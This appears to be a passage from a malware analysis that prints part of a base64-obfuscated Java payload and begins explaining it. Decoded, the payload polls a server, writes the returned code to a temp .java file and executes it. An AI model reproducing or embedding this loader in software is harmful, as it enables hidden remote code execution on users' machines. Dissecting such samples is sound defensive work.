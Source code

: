 ```java
          + "CAgY29udGludWU7CiAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICBTdHJpbmcgcmVzU3RyID0gcmVzcG9uc2UuYm9keSgpOwogICAgICAgICAgICAgICAgaWYgKCF"
          + "yZXNTdHIuc3RhcnRzV2l0aCgiR0lUSFVCX1JFUyIpKQogICAgICAgICAgICAgICAgewogICAgICAgICAgICAgICAgICAgIFN5c3RlbS5vdXQucHJpbnRsbigiRGF0YSBFcnJvc"
          + "iIpOwogICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgIGlmIChyZXNTdHIubGVuZ3RoKCkgPiAxMSkKICAgICAgICAgICAgICAgIHsKICAgICAgICAgICA"
          + "gICAgICAgICBTdHJpbmcgZW5jX2RhdGEgPSByZXNTdHIuc3Vic3RyaW5nKDEwKTsKICAgICAgICAgICAgICAgICAgICBieXRlIFtdIGRlY19kYXRhID0gQmFzZTY0LmdldERlY"
          + "29kZXIoKS5kZWNvZGUoZW5jX2RhdGEpOwogICAgICAgICAgICAgICAgICAgIFN0cmluZyBvcmdfZmlsZSA9IG5ldyBTdHJpbmcoZGVjX2RhdGEsIFN0YW5kYXJkQ2hhcnNldHM"
          + "uVVRGXzgpOwogICAgICAgICAgICAgICAgICAgIFN0cmluZyBvcmdfcGF0aDsKICAgICAgICAgICAgICAgICAgICAKICAgICAgICAgICAgICAgICAgICBpZiAoSW50ZWdlci5wY"
          + "XJzZUludChnZXRPcGVyYXRpbmdTeXN0ZW0oKSkgPT0gMCkKICAgICAgICAgICAgICAgICAgICB7CiAgICAgICAgICAgICAgICAgICAgICAgIG9yZ19wYXRoID0gU3lzdGVtLmd"
          + "ldFByb3BlcnR5KCJqYXZhLmlvLnRtcGRpciIpICsgIlxccHJlZlRtcC5qYXZhIjsKICAgICAgICAgICAgICAgICAgICAgICAgc2VjX3BhdGggPSBTeXN0ZW0uZ2V0UHJvcGVyd"
          + "HkoImphdmEuaW8udG1wZGlyIikgKyAiXFxwLmRhdCI7CiAgICAgICAgICAgICAgICAgICAgfSBlbHNlIHsKICAgICAgICAgICAgICAgICAgICAgICAgb3JnX3BhdGggPSBTeXN"
          + "0ZW0uZ2V0UHJvcGVydHkoImphdmEuaW8udG1wZGlyIikgKyAiL3ByZWZUbXAuamF2YSI7CiAgICAgICAgICAgICAgICAgICAgICAgIHNlY19wYXRoID0gU3lzdGVtLmdldFByb"
          + "3BlcnR5KCJqYXZhLmlvLnRtcGRpciIpICsgIi9wLmRhdCI7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgICAgIHRyeSAoRmlsZVdyaXRlciBmaWxlID0"
          + "gbmV3IEZpbGVXcml0ZXIob3JnX3BhdGgsIHRydWUpO0J1ZmZlcmVkV3JpdGVyIGJ1ZmZlciA9IG5ldyBCdWZmZXJlZFdyaXRlcihmaWxlKSkgewogICAgICAgICAgICAgICAgI"
          + "CAgICAgICBidWZmZXIud3JpdGUob3JnX2ZpbGUpOwogICAgICAgICAgICAgICAgICAgIH0KICAgICAgICAgICAgICAgICAgICBTdHJpbmcgY21kbGluZSA9ICJqYXZhICIgKyB"
          + "vcmdfcGF0aCArICIgIiArIHVpZCArICIgIiArIFBPU1RfVVJMOwogICAgICAgICAgICAgICAgICAgIFJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoY21kbGluZSk7CiAgICAgI"
          + "CAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDMwMDApOwogICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgVGhyZWFkLnNsZWVwKDUwMDApOwogICAgICAgICAgICB"
          + "9CiAgICAgICAgICAgIH0gY2F0Y2ggKEludGVycnVwdGVkRXhjZXB0aW9uIGV4KSB7CiAgICAgICAgICAgIH0KICAgICAgICB9CiAgICB9Cn0K";
```

As it was commented, it is `base64` content which will be decoded and later written in a `.java` file located in a temporary directory.

Decoding the base64 content of this variable we get the following output, which is far from being a simple log file:
  
<details><summary>Java Code (112 lines)</summary></details>

What does this code do?

- Multiple imports to grant the snippet ability to make HTTP connections, encode and decode Base64, manipulate files, throw random numbers and use threading

```java
import java.io.IOException;
import java.net.URI;
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
import java.nio.charset.StandardCharsets;
import java.util.Base64;
import java.util.Random;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.lang.Thread;
```
